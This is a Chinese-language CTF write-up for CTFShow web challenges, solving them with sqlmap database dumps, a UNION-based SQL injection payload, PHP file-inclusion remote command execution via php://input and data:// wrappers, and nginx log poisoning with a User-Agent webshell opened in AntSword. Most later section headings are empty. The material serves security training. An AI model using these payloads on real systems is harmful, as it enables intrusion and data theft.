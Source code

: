 # Web

## 前置

### web签到题

进入靶机，按下F12，发现注释里一串base64编码

![发现目标](.\图片\前置\web签到题.png)

解码得到flag



### web2

最简单的SQL注入

那就注入试试

先用sqlmap解题

抓包查看密码存储方式，发现是明文POST请求存储

![](.\图片\前置\web2\抓包查看密码存储方式.png)

```
sqlmap -u "http://c1715296-bf6c-44e4-a87c-2c56d5b761c1.challenge.ctf.show/" --data="username=admin&password=123456" --dbs
```

生成的payload:username=admin' UNION ALL SELECT NULL,CONCAT(0x71786b7671,0x416151487a54695241536a41434f687259736b4551496d4957444e575944765354566c41794e514d,0x717a787071),NULL-- -&password=123456

爆它库名得到

![](.\图片\前置\web2\爆它库名.png)

发现有个web2，然后爆他的表

```
sqlmap -u "http://c1715296-bf6c-44e4-a87c-2c56d5b761c1.challenge.ctf.show/" --data="username=admin&password=123456" -D web2 --tables --batch
```

![](F:\CTFShow-Web\Web\图片\前置\web2\爆它的表.png)

然后发现了flag，爆他的列！

```
sqlmap -u "http://c1715296-bf6c-44e4-a87c-2c56d5b761c1.challenge.ctf.show/" --data="username=admin&password=123456" -D web2 -T flag --columns --batch
```

![](.\图片\前置\web2\爆它的列.png)

是一个可以读写的值，爆他的值！

```
sqlmap -u "http://c1715296-bf6c-44e4-a87c-2c56d5b761c1.challenge.ctf.show/" --data="username=admin&password=123456" -D web2 -T flag -C flag --dump --batch
```

![](.\图片\前置\web2\爆它的值.png)

芜湖起飞！

都什么年代了，还在玩传统注入？（手动滑稽保命）



### web3

更简单的web题

那看来web2就是让人练习sqlmap的使用的，这payload打这么多个也确实很费力！

### `<?php include($_GET['url']);?>`

还用想吗？炒鸡典型的文件包含。

payload:?url=php://input

开始POST请求执行系统命令

<?=system("ls");?> 得到目录下文件

![](.\图片\前置\web3\得到目录下文件.png)

有一个非常明显的ctf_go_go_go，访问它，下载下来，查看

![](.\图片\前置\web3\得到flag.png)

此题终结

### web4

又一次

### `<?php include($_GET['url']);?>`

那按原方法试试看？

发现php://input不太行

再试试data://text/plain,<?php system("ls");?>

都不行？那就只能上后门了。

?url=/var/log/nginx/access.log，打开日志，发现有输出浏览器UA。

然后UA插一句话木马，上AntSword，刀它！

flag文件在/var/www/flag.txt位置。

![](.\图片\前置\web4.png)

### web5





## 萌新赛

## 内部赛

## 36D练手赛

## 36D杯

## WEB AK赛

## 月饼杯

## 1024杯

## 原谅杯

## ROARCTF复现

## 大吉大利杯

## F5杯

## 渔人杯

## 大牛杯

## baby杯

## 吃鸡杯

## 吃瓜杯

## 月饼杯II

## 击剑杯

## 摆烂杯

## 新春欢乐赛

## 卷王杯

## 单身杯

## 七夕杯

## 新手杯

## 年CTF

## 2023愚人杯